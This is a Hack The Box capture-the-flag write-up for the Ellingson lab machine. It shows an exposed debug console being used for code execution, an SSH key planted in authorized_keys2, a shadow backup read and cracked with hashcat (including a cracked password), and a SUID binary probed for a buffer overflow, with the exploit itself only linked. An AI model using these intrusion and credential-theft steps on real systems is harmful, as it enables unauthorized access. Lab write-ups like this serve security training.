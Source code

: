# Hack The Box - Ellignson

![](Images/ellingson.png)



### <u>Port Scan</u>

We will start with a **nmap** to scan for open ports with the following command:

```bash
~$ nmap -sV -sC -p- 10.10.10.139
```

![](Images/1.png)



### <u>Web Enumeration</u>

When we enter the website we didn't see anything special except that there are 3 links to some articles.

![](Images/2.png)



### <u>Misconfiguration: Debug Mode Enabled</u>

When we inject a non-numeric character into the url, the web page shows us an error and we enter a debug mode normally used in development environments.

![](Images/3.png)



This debug mode allow us to execute commands in the machine if we click on the console icon on the right side.

![](Images/4.png)

The first thing we do after discovering the code execution is to check what user is running the web application and if we are able to write a public key in "***authorized_keys***" file his home directory to access the machine by SSH.

```python
import os
os.popen('id').read()
```

![](Images/5.png)

After check the user that running the web application we are going to check the ssh configuration file.

```python
import os
os.popen('cat /etc/ssh/sshd_config').read()
```

![](Images/6.png)

The ssh configuration file tell us that we can put our ssh public key in "***authorized_keys***" or in "***authorized_keys2***" file to be able to enter in the remote machine by SSH.

In this case we are going to use "***authorized_keys2***" file.

```python
import os
os.popen('echo "<YOUR_PUBLIC_KEY>" >> ~/.ssh/authorized_keys2').read()
```

![](Images/7.png)

![](Images/8.png)



### <u>Lateral Movement - User Flag</u>

When we enter bya SSH with Hal user we don't see any flag so we'll probably have to make a lateral movement to get the flag.

The first thing that calls our attention is that the user **hal** belongs to the ***adm*** group. 

![](Images/9.png)

In Linux systems the users of this group are usually able to read the log files, so the first thing we decide to do is to look for all the files that the ***adm*** group can read with the following command:

```bash
~$ find / -group adm 2>/dev/null
```

![](Images/10.png)

We found an interested file called "**/var/backups/shadow.bak**" which contains the actual password in encrypted format. 

To crack these hashes we will execute the following command:

```bash
~$ hashcat -m 1800 -a 0 ellingson-hashes.txt /usr/share/wordlists/rockyou.txt
```

![](Images/11.png)

![](Images/12.png)

After a few minutes we will get the password (***iamgod$08***) from **margo** so we can enter by SSH and read the user flag.

![](Images/13.png)



### <u>Privilege Escalation</u>

One of the first things that we can do to privilege escalation it is to check if there are any SUID binaries that allow us to execute commands as root user. 

To check what binaries there are in the system we will use the following command:

```bash
~$ find / -perm -u=s 2>/dev/null
```

![](Images/14.png)

When we execute the "**garbage**" binary it ask us for a password that can be found searching for the strings in the binary.

```bash
~$ strings /usr/bin/garbage
```

![](Images/15.png)

The binary doesn't do anything special so the next step is to try to look for any memory corruptions.

Before download the binary we are going to generate a large string to test if there are any  buffer overflow vulnerability in the user input.

```
~$ python -c "print 'A' *200 "
~$ garbage
Enter access password: <PASTE_YOUR_STRING>
```

![](Images/16.png)

After check that the binary looks vulnerable to buffer overflow we are going to do some checks before exploit the vulnerability:

1. Check if the system has ASLR enabled

   ```bash
   ~$ cat /proc/sys/kernel/randomize_va_space
   ```

   ![](Images/17.png)

2. Check if the binary is hardened

```bash
~$ rabin2 -I garbage
```

![](Images/18.png)

Seeing that ASLR is enabled and that binary has NX protection enabled we need to do the technique **ret2libc** in order to exploit this buffer overflow.

> There are many post explaining this technique so we aren't going to see how to develop the exploit here. 

After develop the [exploit](https://github.com/cynops/HackTheBox-Writeups/blob/master/Ellingson/garbage-exploit.py) we are be able to get a root shell and take the root flag.

![](Images/19.png)